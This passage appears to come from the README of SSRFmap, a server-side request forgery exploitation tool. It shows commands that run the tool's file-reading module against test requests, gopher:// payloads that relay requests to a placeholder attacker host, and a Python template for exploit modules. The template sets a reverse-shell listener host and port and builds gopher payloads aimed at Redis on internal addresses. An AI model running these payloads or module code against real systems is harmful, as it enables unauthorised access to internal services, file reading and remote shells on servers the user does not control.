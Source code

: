 Launch the tests requests:

```ps1
docker exec -it example python ssrfmap.py -r examples/request.txt -p url -m readfiles --rfiles /etc/issue
docker exec -it example python ssrfmap.py -r examples/request2.txt -p url -m readfiles --rfiles /etc/issue
docker exec -it example python ssrfmap.py -r examples/request3.txt -p url -m readfiles --rfiles /etc/issue
docker exec -it example python ssrfmap.py -r examples/request4.txt -p url -m readfiles --rfiles /etc/issue
docker exec -it example python ssrfmap.py -r examples/request5.txt -p url -m readfiles --rfiles /etc/issue
docker exec -it example python ssrfmap.py -r examples/request6.txt -p X-Custom-Header -m readfiles --rfiles /etc/issue
```


## Contribute

I :heart: pull requests :)
Feel free to add any feature listed below or a new service.
  - Redis PHP Exploitation 
  - HTTP module (Jenkins ?)
  ```powershell
  gopher://<proxyserver>:8080/_GET http://<attacker:80>/x HTTP/1.1%0A%0A
  gopher://<proxyserver>:8080/_POST%20http://<attacker>:80/x%20HTTP/1.1%0ACookie:%20eatme%0A%0AI+am+a+post+body
  ```

The following code is a template if you wish to add a module interacting with a service.

```python
from core.utils import *
import logging

name          = "servicename in lowercase"
description   = "ServiceName RCE - What does it do"
author        = "Name or pseudo of the author"
documentation = ["http://link_to_a_research", "http://another_link"]

class exploit():
    SERVER_HOST = "127.0.0.1"
    SERVER_PORT = "4242"

    def __init__(self, requester, args):
        logging.info("Module '{}' launched !".format(name))

        # Handle args for reverse shell
        if args.lhost == None: self.SERVER_HOST = input("Server Host:")
        else:                  self.SERVER_HOST = args.lhost

        if args.lport == None: self.SERVER_PORT = input("Server Port:")
        else:                  self.SERVER_PORT = args.lport

        # Data for the service
        # Using a generator to create the host list
        # Edit the following ip if you need to target something else
        gen_host = gen_ip_list("127.0.0.1", args.level)
        for ip in gen_host:
            port = "6379"
            data = "*1%0d%0a$8%0d%0aflus[...]%0aquit%0d%0a"
            payload = wrapper_gopher(data, ip , port)

            # Handle args for reverse shell
            payload = payload.replace("SERVER_HOST", self.SERVER_HOST)
```